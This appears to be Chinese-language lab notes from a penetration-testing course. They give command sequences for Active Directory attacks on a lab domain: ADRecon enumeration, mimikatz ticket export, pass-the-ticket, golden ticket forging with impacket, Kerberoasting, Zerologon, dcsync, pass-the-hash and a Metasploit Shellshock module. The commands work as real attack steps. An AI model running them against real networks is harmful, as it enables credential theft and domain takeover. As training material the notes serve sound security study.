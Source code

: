 Day5
===
ADRecon
---
    AD由三個部分組成
    目錄分割區
    設定檔
    Schema資料庫結構
![image](https://github.com/user-attachments/assets/5f241d92-cbbd-4673-9652-2120ee57b018)
![image](https://github.com/user-attachments/assets/2a14572d-8f90-4533-835c-513a9945791e)

    蒐集AD資訊，下載ADRecon工具
[ADRecon工具](https://github.com/adrecon/ADRecon)
![image](https://github.com/user-attachments/assets/b3735d89-1269-4271-a994-8b2bb5b57117)

    執行powershell&ADRecon.ps1
    powershell.exe  -nop –ep bypass
    -nop:PowerShell 在啟動時不讀取任何配置文件，包括使用者配置文件。
    -ep: -ExecutionPolicy Bypass 的簡寫
    > in Domain
    ./adrecon.ps1
    > OR Not in Domain
    ./adrecon.ps1 -DomainController 192.168.177.19 –OutputType ALL -Credential lpt.com\cpent
    > OR
    ./adrecon.ps1 -DomainController 192.168.177.19 –OutputType HTML -Credential lpt.com\cpent
![image](https://github.com/user-attachments/assets/63813ab0-0e04-42ef-8f18-86b36605c65a)
![image](https://github.com/user-attachments/assets/12ddffa2-2bf4-4b03-871f-b53ef80c8687)

Export Kerberos Tickets
---
    使用mimikatz工具
    mimikatz
    privilege::debug
    sekurlsa::tickets /export
![image](https://github.com/user-attachments/assets/325d960d-dbe1-4dd5-8533-3b9b4fa6ccc9)
![image](https://github.com/user-attachments/assets/cf574c3d-244b-4dfa-a7aa-77905f6e0438)

Pass the Ticket
---
    取得DC TGT拿到另外一台機器匯入TGT，尚未匯入前無法訪問DC目錄
![image](https://github.com/user-attachments/assets/c244175e-bf04-4d54-a842-4f2171abf30e)
![image](https://github.com/user-attachments/assets/e83a042a-4223-4460-94ca-d4426c83289c)

    匯入TGT&確認票卷
![image](https://github.com/user-attachments/assets/4a8cfc5b-0cb2-4156-a80b-6cd23f8faf35)
![image](https://github.com/user-attachments/assets/57868c45-8eb9-4959-aa94-31a1371981d5)

    可瀏覽DC目錄
![image](https://github.com/user-attachments/assets/1495a602-6c57-4ff2-a1a8-67af5b4b1227)

Golden Ticket Attack
---
    /etc/hosts新增IP&域名
![image](https://github.com/user-attachments/assets/cd32ab86-fca6-447e-bda6-ede7ce144113)

    取得administrator的krbtgt的NTLM hash
    impacket-secretsdump 'administrator:Pa$$w0rd'@192.168.177.19    
![image](https://github.com/user-attachments/assets/164b2a01-4163-4cef-a8db-4f4b19f663a5)

    取得administrator的SID
    python3 /opt/impacket/examples/lookupsid.py 'administrator:Pa$$w0rd'@192.168.177.19 0
![image](https://github.com/user-attachments/assets/3ec80a6d-4cce-406a-84af-28f25dff7e05)

    簽一張TGT
    python3 /opt/impacket/examples/ticketer.py -nthash <ntlm_hash> -domain-sid <sid> -domain lpt.com evil
![image](https://github.com/user-attachments/assets/1e063263-9b10-4248-8545-09fb0828fe89)

    設定環境變數
    export KRB5CCNAME=~/evil.ccache
![image](https://github.com/user-attachments/assets/dd1603e6-c95a-48ae-8f2f-cfbf5f806cb8)

    執行RCE
    psexec.py lpt.com/evil@server2019.lpt.com -k -no-pass -dc-ip 192.168.177.19
![image](https://github.com/user-attachments/assets/afa4eab9-d9e7-4603-8c33-c7708c096562)

Kerberoasting
---
    Register service in AD
    setspn -s http/lpt.com user-one
![image](https://github.com/user-attachments/assets/fbca5919-1e5d-4a1f-9fff-c59e2e07dcd5)
  
    取得在DC上註冊的服務&密碼HASH
    GetUserSPNs.py 'lpt.com/cpent:Pa$$w0rd' -dc-ip 192.168.177.19 -request -outputfile kerberoast.txt
![image](https://github.com/user-attachments/assets/f4ca12aa-9f57-4d1d-a892-6f0576e95622)
![image](https://github.com/user-attachments/assets/eceb82db-8e93-47f4-a09f-5f5c7a76c27b)

    使用john破解user-one密碼
![image](https://github.com/user-attachments/assets/cad67771-346f-4b44-83af-8625d293407f)

Zerologon
---
    下載新版mimikatz
 [mimikatz](https://github.com/gentilkiwi/mimikatz/releases/tag/2.2.0-20220919)
![image](https://github.com/user-attachments/assets/c1213384-fed5-4171-ad7b-a0fd068dc5ad)

    執行mimikatz並dump
    lsadump::Zerologon /target:192.168.177.19 /account:server2019$ /null /ntlm /exploit
    lsadump::postzerologon /target:192.168.177.19 /account:server2019$
![image](https://github.com/user-attachments/assets/07bd99c9-3e5b-417a-b4ce-33f5628990bd)
dcsync
---
    lsadump::dcsync /authdomain:lpt /authuser:server2019$ /authpassword:"" /authntlm /domain:lpt.com /dc:server2019 /user:administrator
    lsadump::dcsync /authdomain:lpt /authuser:server2019$ /authpassword:"" /authntlm /domain:lpt.com /dc:server2019 /user:krbtgt
![image](https://github.com/user-attachments/assets/bf3b892f-5ffd-4cff-a30c-fb63a3ff9ad6)

    目前連到不到DC目錄
![image](https://github.com/user-attachments/assets/a610b8aa-ff61-405c-92c0-cded3b11437a)

PtH
---
    privilege::debug
    sekurlsa::pth /user:Administrator /domain:server2019.lpt.com /ntlm:<HASH>
![image](https://github.com/user-attachments/assets/1c8478f2-e11e-45ed-803f-27cb5c239fd7)
![image](https://github.com/user-attachments/assets/b00c5da9-30d3-4d09-82f2-23fa015fb745)

PtT
---
    取得krbtgt的NTLM HASH&SID
    kerberos::golden /domain:lpt.com /sid:<SID> /krbtgt:<HASH> /user:evil /ptt
    misc::cmd
    klist add_bind lpt.com server2019.lpt.com 
    kerberos::golden /domain:lpt.com /sid:<SID> /krbtgt:<HASH> /user:evil /ticket:evil.tck
![image](https://github.com/user-attachments/assets/24f1ebad-a84c-4a3a-a530-a711c97a9dfe)

SHELLSHOCK
---
    Preparation on 192.168.0.24:
    cd /usr/lib/cgi-bin/
    sudo cp shellshock keygen
![image](https://github.com/user-attachments/assets/54fc6039-d50f-41fd-a041-3550317af3b4)

    Parrot:
    dirb http://192.168.0.24
    dirb http://192.168.0.24/cgi-bin
![image](https://github.com/user-attachments/assets/f204f99d-7037-4c23-a3ba-4f2a83d00deb)
![image](https://github.com/user-attachments/assets/c6e7b513-24e3-421d-9769-fbd7892ae987)

    msfconsole
    search shellshock
    use exploit/multi/http/apache_mod_cgi_bash_env_exec
    show options
    set RHOSTS 192.168.0.24
    set RPORT 80
    set TARGETURI /cgi-bin/keygen


LFI to RCE
---
   

